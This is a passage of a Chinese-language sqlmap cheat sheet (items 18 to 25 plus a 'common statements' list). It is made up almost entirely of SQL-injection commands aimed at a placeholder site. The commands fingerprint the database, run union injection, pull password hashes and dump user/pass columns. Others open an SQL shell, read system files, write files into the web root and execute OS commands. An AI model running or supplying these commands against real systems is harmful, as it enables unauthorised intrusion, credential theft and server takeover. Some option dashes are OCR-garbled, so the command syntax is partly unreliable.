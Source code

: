 18)指定数据库，绕过SQLMAP的自动检测

python sqlmap.py -u "url" -v 2 --dbms "PostgreSQL"

19)指定操作系统绕过SQLMAP自动检测

python sqlmap.py -u "url" -v 2 --os "Windows"

20)--prefix and --postfix自定义payload

python sqlmap.py -u "url" -v 3 -p "id" --prefix "'" --postfix "and 'test'='test"

21)union注入测试

python sqlmap.py -u "url" --union-test -v -1

22)配合order by

python sqlmap.py -u "url" --union-test --union-tech orderby -v 1

23)python sqlmap.py -u "url" -v 1 --union-use --banner

24)python sqlmap.py -u "url" -v 5 --union-use --current-user

25)python sqlmap.py -u "url" -v 1 --union-use --dbs

 

常用语句

1.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -f -b –current-user –current-db –users –passwords –dbs -v 0

2.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –passwords -U root –union-use -v 2

3.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –dump -T users -C username -D userdb –start 2 –stop 3 -v 2

4.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –dump -C “user,pass” -v 1 –exclude-sysdbs

5.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –sql-shell -v 2

6.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –file-read “c:\boot.ini” -v 2

7.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –file-write /test/test.txt –file-dest /var/www/html/1.txt -v 2

8.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –os-cmd “id” -v 1
